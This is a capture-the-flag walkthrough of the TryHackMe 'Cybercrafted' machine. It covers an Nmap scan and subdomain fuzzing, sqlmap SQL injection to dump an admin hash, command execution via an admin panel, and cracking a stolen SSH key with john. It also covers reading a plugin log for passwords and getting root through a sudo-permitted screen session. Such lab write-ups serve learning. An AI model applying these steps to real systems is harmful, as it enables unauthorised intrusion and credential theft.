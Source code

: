 ```yaml
---
title: Cybercrafted
date: 2021-11-24 11:11:11 +/-TTTT
categories: [CTF, tryhackme]
tags: [dns, sqli, hash, sudo, minecraft]
---
```


|Machine Name | Date | Level | Type |
|-------------|-------|------|------|
| Cybercrafted | 2021-11-24 | Medium | ctf |

![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/dd06737472c79a806e2049ddeb3af354.png)

Pwn this pay-to-win Minecraft server!

## Reconnaissance

As always start with the Nmap.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-21 23:54 EST
Nmap scan report for cybercrafted.thm (10.10.61.207)
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
|_  256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cybercrafted
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds


```

here we get the HTTP server and ssh service.


### HTTP

Let's Enumerate the HTTP first.

When we browse the IP address into a browser it redirects us to `http://cybercrafted.thm/`. Add it to `/etc/hosts` file.

`index.html` serves a static image.

![index](/assets/thm/cybercrafted/index_page.png)

Review source code we get an HTML comment.

```html
<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->

```

We need to find a subdomain for the machine. Lets bruteforce for subdomains.

`    ffuf -w /usr/share/wordlist/dirb/common.md -u http://cybercrafted.thm/ -H “Host: FUZZ.cybercrafted.thm”`

by brute-forcing, we get three subdomains.

1. www
2. store
3. admin

add subdomain in `/etc/hosts` file.

/admin looks interesting.

![admin log in page](/assets/thm/cybercrafted/admin_login.png)

Try some SQL injection bypass techniques but failed.

/store is a Forbidden resource. but when we do directory fuzzing on store.cybercrafted.thm we get `/search.php`

`search.php` searches items from the database so it might be vulnerable to SQL injection. Let's test using `sqlmap`.

Capture the `search.php` request in burp and save it to `sqltest.txt`

```
POST /search.php HTTP/1.1
Host: store.cybercrafted.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://store.cybercrafted.thm
Connection: close
Referer: http://store.cybercrafted.thm/search.php
Upgrade-Insecure-Requests: 1

search=testing&submit=

```

`sqlmap -r sqltest --batch --dbs`

/search.php is vulnerable to SQL injection.


```
available databases [5]:                                                                                              
[*] information_schema                                     
[*] mysql                                                  
[*]performance_schema                                                    [*] sys                                                                                                               
[*] webapp   

```
Enumerate the database found user and hash.

xXUltimateCreeperXx: 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01

after cracking the hash got password: `di*************9`


user `xXUltimateCreeperXx:di*************9` Login into `admin.cybercrafted.thm`

After login, we got `/panel.php` on which we can run system commands.

From here we can get a shell by various ways.

## Gaining Access

Mostly I prefer ssh shell because it's the stable one.

from `panel.php` get xXUltimateCreeperXx user's private ssh key.

![key](/assets/thm/cybercrafted/key.png)

A private key is encrypted. Let's crack it using `ssh2john` and `john`

`ssh2john id_rsa > hash`

`john hash --wordlist=/usr/share/wordlist/rockyou.txt`

john crack the password successfully: `c*********6`

Login as `xxultimatecreeperxx`

## Privilege Escalation

### Escalate from xxultimatecreeperxx to cybercrafted

After downloading `linpeas.sh` to the target machine and enumerating it for some time I find Minecraft server on the machine. 

this Minecraft server has a plugin called `loginsystem` which has a log file called `log.txt`. 

`/opt/mincraft/cybercrafted/plugins/LoginSystem/log.txt`

From this file, we get the password for `cybercrafted` user.


`cybercrafted:J*****************k`

Log in as `cybercrafted`.

Now we have a password for `cybercrafted`.

### Escalate from cybercrafted to root

Did some enumeration on the box and found out that `cybercrafted` can run `/usr/bin/screen` as root.

```
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted


```
`screen` is used to start a screen session or open any number of the window inside a session. 

`/usr/bin/screen -r cybercrafted` here `-r` used to resume the screen session of user `cybercrafted`.

After some research, I found out that we can create a new window with a shell using `screen`.

`sudo -u /usr/bin/screen -r cybercrafted`

it attaches the screen of `cybercrafted` .
then use shortcut `ctrl+a+c` and we get a root shell.

`ctrl+a+c` is used to create a new window with shell. and this program is running as root we get root window shell.

![root](/assets/thm/cybercrafted/root.png)


## Resources

[How To Use Linux Screen](https://linuxize.com/post/how-to-use-linux-screen/)